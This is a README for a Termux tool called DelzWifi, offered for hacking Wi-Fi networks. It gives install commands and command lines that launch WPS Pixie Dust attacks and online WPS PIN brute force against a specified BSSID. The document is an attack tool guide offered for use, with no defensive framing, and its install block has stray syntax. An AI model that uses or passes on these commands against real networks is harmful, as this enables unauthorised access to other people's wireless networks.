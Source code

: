## DelzWifi
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
&& apt update && apt upgrade
&& pkg install -y root-repo
&& pkg install -y git tsu python wpa-supplicant pixiewps iw
&& git clone https://github.com/ghodelzcalm/DelzWifi
&& cd DelzWifi
&& chmod +x birihack.py
&& sudo python birihack.py --help
```

#### Example : 
cd DelzWifi

chmod +x birihack.py

sudo python birihack.py -i wlan0 -K

## UPDATE

(cd DelzWifi && git pull)

## Express

sudo python DelzWifi/birihack.py -i wlan0 -K

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
